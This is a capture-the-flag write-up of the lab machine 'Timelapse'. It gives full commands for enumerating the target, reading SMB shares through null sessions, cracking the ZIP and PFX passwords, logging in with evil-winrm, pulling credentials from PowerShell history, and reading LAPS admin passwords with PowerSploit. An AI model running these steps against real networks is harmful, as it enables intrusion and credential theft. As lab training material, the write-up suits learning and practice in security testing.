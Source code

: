 # Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9306bd81-6e7e-4e56-90ae-73367c7f810e)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


![image](https://github.com/0xCOrS/WriteUps/assets/97627828/73645148-c9f9-402c-8983-dd6849c76d04)

### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/99177a6a-8c9e-4d76-b70b-30eb42be896e)

As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/6e1c0c7b-8409-474b-8e65-e89b203b63bd)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/80c4b8fa-ed9f-42d5-a697-fabe4bcb6702)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4f3f8bbe-f81c-497c-a9e9-9d834794aff7)

As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/04d93ec4-8611-4213-8038-85448355a15f)

As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/7cf07d0b-9324-4c68-9dba-5fa9a9378ae1)

Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/42827fc6-2e79-4586-ba94-5d052a1ae38c)

To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/495fd680-e6dd-4148-89d2-ce7bda681ab8)

Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/283df843-6aa5-4e3d-a4b5-fd4a0b1adc88)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f049f4ba-3f61-4c7e-b11a-6e897634caae)

As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. 

After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a023b07c-f783-44ee-8c24-aa7c2d2e5770)

## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f3015451-3172-4e86-9c02-964010ed8af6)

3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9acf8b9a-ea05-424e-8cbd-7c41490d3d2c)

4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ff8e7ade-cb11-4b00-8cec-f3816151712e)

5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a49f93a9-19b3-4acf-9056-73e194013120)

Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/01b7061a-f10a-4b1c-8957-7db0c824152a)

## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext credentials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/3711ba51-dd53-4914-8cbb-174751a4f8db)

As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.













